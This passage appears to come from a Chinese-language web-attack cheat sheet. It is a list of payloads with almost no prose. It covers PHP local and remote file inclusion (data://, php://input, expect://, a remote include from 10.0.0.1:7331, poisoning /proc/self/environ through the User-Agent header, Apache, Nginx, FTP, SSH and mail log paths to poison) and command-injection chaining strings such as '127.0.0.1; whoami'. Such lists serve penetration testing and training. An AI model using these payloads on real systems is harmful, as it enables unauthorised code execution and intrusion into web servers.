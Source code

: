 - `data://` 协议

```
data://text/plain,<?=phpinfo();?>
data://text/plain;base64,PD89cGhwaW5mbygpOz8%2B
```

- `php://input` 协议

```
php://input
```

- 远程文件包含

```
http://10.0.0.1:7331/l33t.txt
```

- `expect://` 协议

```
expect://id
expect://ls
```

- 利用环境 `/proc/self/environ`

```
GET vulnerable.php?filename=../../../proc/self/environ HTTP/1.1
User-Agent: <?=phpinfo(); ?>
```

- 利用日志文件

```
/var/log/apache/access.log          # Apache
/var/log/apache/error.log
/var/log/apache2/access.log
/var/log/apache2/error.log
/var/log/httpd/error_log
/usr/local/apache/log/error_log
/usr/local/apache2/log/error_log
/var/log/nginx/access.log           # Nginx
/var/log/nginx/error.log
/var/log/vsftpd.log                 # FTP
/var/log/auth.log                   # SSH
/var/log/sshd.log                   
/var/log/mail                       # Mail
```



## 命令注入

- 命令链（`;` `&&` `||` `&` `|`）

```
127.0.0.1; whoami
127.0.0.1 && whoami
xxx || whoami
127.0.0.1 & whoami
127.0.0.1 | whoami
```
